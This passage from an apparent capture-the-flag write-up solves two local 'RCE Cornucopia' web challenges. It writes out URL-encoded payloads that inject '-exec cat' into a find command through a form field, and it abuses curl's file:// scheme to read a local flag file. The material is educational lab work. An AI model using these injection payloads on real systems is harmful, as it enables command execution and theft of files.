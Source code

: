 ```{% raw %}
`find` can take a number of different actions on matching items, outlined pretty well in the ACTIONS section of the [man page](https://linux.die.net/man/1/find). One action is to run an arbitrary command on matching files using `-exec`.

The command we'll run is to `cat` the flag to the matched file (Sam). The following will match Sam and then execute `cat /tmp/flag.txt Sam`

```{% raw %}
root@kali ~/A/c/08# find . -name Sam -exec cat /tmp/flag.txt {} +
flag{localPOCflag}
{% endraw %}```

So our payload is,

```{% raw %}
Sam -exec cat /tmp/flag.txt {} +
{% endraw %}```

For some reason this challenge is especially sensitive to URL encoding. To avoid problems I've encoded all non-alpha characters in the payload.

```{% raw %}
http://127.0.0.1:8088/index.php?user=Sam%20-exec%20cat%20%2Ftmp%2Fflag.txt%20%7B%7D%20%2B&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce8-004.png)

Woo.

# Challenge 9

![RCE Cornucopia](/img/rce-cornucopia/rce9-000.png)

Test run.

```{% raw %}
http://127.0.0.1:8089/index.php?url=example.com&string=coordination&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce9-001.png)

## Solution 1 - Web Request

We'll assume the application, like previous challenges, is coded in a very straightforward way using `curl` and `grep`. Something like `curl <URL> | grep <string>` followed by some logic to check whether anything was matched.

Note that `curl` can be used to read fetch a local file.

```{% raw %}
root@kali ~/A/c/09# curl file:///tmp/flag.txt
flag{localPOCflag}
{% endraw %}```

Let's try that online, search for 'flag' in the URL `file:///tmp/flag.txt` since we know it will be there.

```{% raw %}
http://127.0.0.1:8089/index.php?url=file%3A%2F%2F%2Ftmp%2Fflag.txt&string=flag&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce9-003.png)

```